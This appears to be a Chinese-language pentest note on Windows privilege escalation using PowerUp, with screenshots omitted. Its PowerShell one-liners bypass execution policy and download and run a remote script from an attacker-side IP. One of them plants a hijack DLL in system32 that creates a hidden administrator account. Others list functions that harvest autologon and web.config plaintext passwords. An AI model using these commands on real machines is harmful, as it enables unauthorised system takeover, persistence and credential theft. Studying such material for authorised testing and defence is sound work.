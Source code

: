 	检测有漏洞的服务
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1');Invoke-AllChecks"
![image](/assets/Pentest_Note/master/img/153.png)

	>icacls C:\Windows\system32\\wlbsctrl.dll 查看文件权限，F为完全控制，M修改
![image](/assets/Pentest_Note/master/img/154.png)

	在AbuseFunction中会显示利用语句。
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1'); Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command 'net user admin pass@Qwe1 /add&net localgroup administrators admin /add'"
![image](/assets/Pentest_Note/master/img/155.png)
	
	重启电脑后会新增用户admin
![image](/assets/Pentest_Note/master/img/156.png)

	查找可能劫持的进程
	>Find-ProcessDLLHijack
	查找环境变量中当前用户可修改的目录
	>Find-PathDLLHijack
	查找存在注册表中自动登录用户的平局
	>Get-RegistryAutoLogon
	查询trusted_service_path
	>Get-ServiceUnquoted
	查询当前用户可修改的注册表开机启动项
	>Get-ModifiableRegistryAutoRun
	查询当前用户可修改的计划任务项
	>Get-ModifiableScheduledTaskFile
	查询系统中所有web.config文件中的明文密码
	>Get-WebConfig
